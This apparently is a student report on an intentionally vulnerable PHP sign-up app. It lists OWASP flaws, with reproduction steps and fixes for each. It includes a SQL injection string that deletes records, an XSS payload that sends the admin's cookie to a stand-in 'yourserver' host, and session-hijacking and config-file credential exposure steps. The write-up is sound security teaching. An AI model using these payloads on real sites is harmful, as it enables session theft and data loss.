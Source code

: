 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with this code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1-Injection

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) will also fix the problem in this case.
## A2-Broken Authentication and Session Management
The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection.<br>
But also: Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption.

### How to identify (broken session management)
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the link in Readme for details)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).<br>
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify (stored XSS)
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
HTML codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL (see the link in Readme for details)! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>
Regarding the session cookie and admin credentials, see the A2-fix.

## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file, in one way or another. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
